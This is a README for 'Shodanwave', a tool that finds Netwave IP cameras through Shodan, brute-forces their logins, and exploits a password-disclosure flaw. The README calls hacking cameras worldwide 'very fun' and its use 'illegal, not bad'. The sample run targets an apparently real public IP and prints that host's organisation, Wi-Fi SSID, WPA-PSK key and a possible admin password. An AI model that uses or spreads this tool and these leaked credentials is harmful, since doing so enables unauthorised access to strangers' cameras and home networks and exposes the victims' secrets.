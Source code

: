 # Shadonwave 

Shodanwave is a tool for exploring and obtaining information from cameras specifically Netwave IP Camera. The tool uses a search engine called shodan that makes it easy to search for cameras online but not only that.

Hack network cameras around the world, Very fun!

What does the tool to? Look, a list!

 * Search 
 * Brute force
 * SSID and WPAPSK Password Disclosure
 * Exploit


Here is an example of shodan wave running ...

```

Usage: python shodanwave.py -u usernames.txt -w passwords.txt  -k Shodan API key
         __              __                                   
   _____/ /_  ____  ____/ /___ _____ _      ______ __   _____ 
  / ___/ __ \/ __ \/ __  / __ `/ __ \ | /| / / __ `/ | / / _ \
 (__  ) / / / /_/ / /_/ / /_/ / / / / |/ |/ / /_/ /| |/ /  __/
/____/_/ /_/\____/\__,_/\__,_/_/ /_/|__/|__/\__,_/ |___/\___/ 
                                                              

This tool is successfully connected to shodan service
Information the use of this tool is illegal, not bad.

[+] Shodan successfully Connected.
[+] Shodan Exploit Enabled.
[+] Netwave IP Camera Found: 111307
[+] Passwords loaded: 12
[!] Disable password discovery module? (S/n): n
[+] Launching brute force on host http://186.193.55.18:8080
[!] Password not found
[!] Getting System Information
[!] Getting Wireless System Information
[+] Mac address found E8ABFA1A9374
[+] Host: http://186.193.55.18:8080
[+] Country: n/a
[+] Organization: Nettel Telecomunicações Ltda.
[+] Product: Netwave IP camera http config
[+] SSID: moslekok
[+] WPAPSK: TulSokanLoptatok
[+] Starting to read memory dump.. this could take a few minutes
[+] CTRL+C to exit..
[+] Binary data: 70560
[+] Strings in binary data found.. password should be around line 10000
10108
[+] Mac address triggered.. printing the following dumps, could leak username and passwords..
[+] Firstline... CAMERA2
[+] Possible username: admin
[+] Possible password: ac00310
[+] Following line.. 

```
### Install Requirements
```
pip install -r /path/to/requirements.txt
```

### References:

 * [Shodan API](https://www.shodan.io/)  search engine for Internet-connected devices.
 * [Requests](http://docs.python-requests.org/en/master/) Requests: HTTP for Humans
 * [Netwave Exploit](https://www.exploit-db.com/exploits/41236/) Netwave IP Camera - Password Disclosure
